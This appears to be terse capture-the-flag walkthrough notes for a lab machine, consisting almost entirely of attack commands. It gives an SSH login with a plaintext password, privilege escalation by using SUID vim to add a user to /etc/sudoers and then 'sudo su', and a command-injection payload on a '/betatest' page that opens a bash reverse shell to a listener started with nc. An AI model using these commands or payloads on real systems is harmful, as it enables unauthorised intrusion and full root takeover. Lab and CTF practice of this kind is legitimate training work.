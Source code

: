 Tyler

`ssh narrator@IP` password `X8JEETQmf3hkS65f` (don't ask me where this comes from, I extracted it from the ~~deep dark~~ web)
`vim /etc/sudoers`
add the line `narrator   ALL=(ALL)	ALL` to the file next to where the root one is
`sudo su`
you are in! `chmod 0755 /usr/bin/vim`



http://ip/betatest
`test; bash -i >& /dev/tcp/IP2/8080 0>&1` after `nc -nlvp 8080`
- Use SSH to get full shell
VIM SUID to root: `vim /etc/sudoers`